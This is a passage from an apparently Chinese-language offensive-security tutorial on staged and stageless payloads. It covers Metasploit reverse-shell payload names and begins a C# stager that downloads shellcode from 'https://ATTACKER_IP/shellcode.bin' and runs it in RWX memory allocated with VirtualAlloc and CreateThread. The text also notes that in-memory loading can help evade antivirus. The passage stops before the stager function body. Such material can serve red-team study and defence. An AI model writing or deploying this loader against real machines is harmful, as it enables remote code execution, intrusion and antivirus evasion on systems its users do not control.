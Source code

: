 ##### 3. 分阶段 vs. 无阶段：如何选择 (Staged vs. Stageless: Choosing the Right One)

选择哪种类型的载荷取决于具体的攻击场景和目标环境。

- **无阶段载荷更适用**:
    - 目标网络具有严格的出口网络访问控制（例如，防火墙阻止 Stager 下载最终载荷）。
    - 需要一次性投递完整功能，不依赖后续网络交互的场景。
- **分阶段载荷更适用**:
    - 希望最小化初始投递文件在目标机器上的磁盘足迹。
    - 希望通过内存加载执行来提高规避某些 AV 检测的可能性。
    - 希望隐藏最终 Shellcode，不使其在初始投递文件中暴露。

##### 4. Metasploit 中的 Stagers 命名约定 (Stagers in Metasploit Naming)

在使用 `msfvenom` 或 Metasploit 框架时，可以通过载荷名称区分分阶段和无阶段版本：

- **无阶段载荷 (Stageless)**: 名称中通常不包含额外的分隔符。
    - 例如: `windows/x64/shell_reverse_tcp`
    - 例如: `windows/x64/meterpreter_reverse_tcp`
- **分阶段载荷 (Staged)**: 名称中通常在平台和最终Shell类型之间有一个额外的 `/shell/` 或 `/meterpreter/` 等。
    - 例如: `windows/x64/shell/reverse_tcp` (Stager + Reverse TCP Shell Stage1)
    - 例如: `windows/x64/meterpreter/reverse_tcp` (Stager + Meterpreter Stage1)

##### 5. 创建自定义 Stager (C# 示例) (Creating Your Own Stager)

以下是一个 C# Stager 示例，它从指定的 URL 下载 Shellcode (`shellcode.bin`)，然后在内存中执行它。

C#

```
using System;
using System.Net;
using System.Runtime.InteropServices; // For Marshal.Copy & DllImport
// using System.Configuration.Install; // Not used in provided snippet
// using System.Security.Cryptography.X509Certificates; // Not directly used, but related to ServicePointManager

public class Program
{
    // P/Invoke for Windows API functions
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    private static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    // Original: UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out uint lpThreadId);
    // Original: IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

    [DllImport("kernel32.dll", SetLastError = true)]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    // Memory allocation constants
    private static UInt32 MEM_COMMIT = 0x1000;
    private static UInt32 PAGE_EXECUTE_READWRITE = 0x40; // RWX permissions

    public static void Main()
    {
        // URL from which to download the final shellcode
        string url = "https://ATTACKER_IP/shellcode.bin"; // Replace ATTACKER_IP
        Stager(url);
    }
```